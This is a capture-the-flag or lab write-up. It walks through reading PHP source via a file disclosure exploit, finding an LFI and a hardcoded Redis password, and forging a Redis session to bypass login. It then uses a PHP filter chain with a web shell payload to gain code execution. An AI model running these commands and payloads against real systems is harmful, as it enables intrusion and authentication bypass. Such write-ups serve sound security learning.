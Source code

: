 Let's check out the source code for this page using that file disclosure exploit.

```bash
# bryan@red_team (bash)
exploit /var/www/developers/login.php
exploit /var/www/developers/index.php # LFI !?
exploit /var/www/developers/bootstrap.php # using redis to handle sessions?
```
{:.nolineno}

Just from reading a few source files, we discover some interesting details:
- `index.php`{:.filepath} loads a user-supplied resource ending in _.php_ from the _page_ GET parameter (LFI) although the user must have the session parameter _auth_ set to _True_
- `bootstrap.php`{:.filepath} uses the redis server on port **6379** as the session handler and uses the password **COLLECTR3D1SPASS** to authenticate.

```php
...
    <?php include($_GET['page'] . ".php"); ?>
...
```
{:file="/var/www/developers/index.php" .nolineno}
```php
...
ini_set('session.save_handler', 'redis');
ini_set('session.save_path', 'tcp://localhost:6379/?auth=COLLECTR3D1SPASS');
...
```
{:file="/var/www/developers/bootstrap.php" .nolineno}

Since Redis is used as the session storage medium and we can supposedly authenticate to Redis using the password in `bootstrap.php`{:.filepath}, we should be able to modify session information and effectively bypass authentication.

```bash
# bryan@red_team (bash)
redis-cli --no-auth-warning -h $rhost -p 6379 -a "COLLECTR3D1SPASS"
```
{:.nolineno}
```bash
# bryan@red_team (redis-cli)
KEYS *
MSET "PHPREDIS_SESSION:2va8uhmnhoru1p78vvuaff4kqk" "auth|b:1;"
MGET "PHPREDIS_SESSION:2va8uhmnhoru1p78vvuaff4kqk"
```
{:file="redis.log" .nolineno}

Now when we visit `/index.php`{:.filepath}, the vulnerable include statement will process the _page_ parameter. This could potentially lead to RCE with the help of a [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```bash
# bryan@red_team (bash)
session="2va8uhmnhoru1p78vvuaff4kqk" # session with auth=True
chain=$(python3 php_filter_chain_generator.py --chain '<?=`$_POST[0]`?>' | tail -1)
chain="${chain/php:\/\/temp/bootstrap}" # use file "bootstrap" because ".php" is appended
curl "$vhost[2]/?page=$chain" -is -o- \
  -u "developers_group:r0cket" \
  -b "PHPSESSID=$session" \
  -d "0=id"
```
{:.nolineno}

